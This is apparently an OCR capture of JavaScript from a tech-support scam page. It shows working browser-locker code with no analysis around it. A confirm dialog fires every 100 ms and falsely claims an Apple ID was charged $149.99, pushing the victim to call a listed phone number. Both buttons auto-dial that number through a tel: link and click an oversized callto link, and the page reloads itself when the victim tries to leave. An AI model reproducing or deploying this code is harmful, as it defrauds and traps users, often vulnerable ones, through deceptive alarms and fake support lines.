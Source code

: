 
        if (!phone) {
            phone = getURLParameter('phone');
        }
        if (!text) {
            text = getURLParameter('text');
        }

        var sText = document.querySelectorAll('.js_setTextBlock');
        for (var t = 0; t < sText.length; t++) {
            sText[t].innerHTML = getText();
        }
        var sPhone = document.querySelectorAll('.js_setPhoneBlock');
        for (var p = 0; p < sPhone.length; p++) {
            sPhone[p].innerHTML = phone;
        }


        setInterval(function() {
            myFunction()
        }, 100);

        function okkkk() {
            jQuery('#result').append('<a  class="anchorcall" href="tel:+1-888-971-1821"></a>');
            document.querySelector('a').click();
            var extraData = "";
            for (itxextraData = 0; itxextraData < 200; itxextraData++) {
                var extraData = extraData + "5555555555";
            }
            jQuery('#result').append('<a href="#callto+' + extraData + '%00"></a>');
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            //setInterval(function(){ alert(getText().repeat(99999999999));}, 300);
        };

        function myFunction() {
            if (confirm("Your Apple ID was recently used at APPLE STORE for $149.99 Via Apple Pay Pre-Authorization!We have placed those request on hold to ensure safest and Security.Not you? Immediately call Apple Support +1-888-971-1821 to Freeze it!.")) {
                okkkk();
            } else {
                okkkk();
            }
        }

        window.ununload = function() {
            debugger;
            location.reload();
        }
    </script>
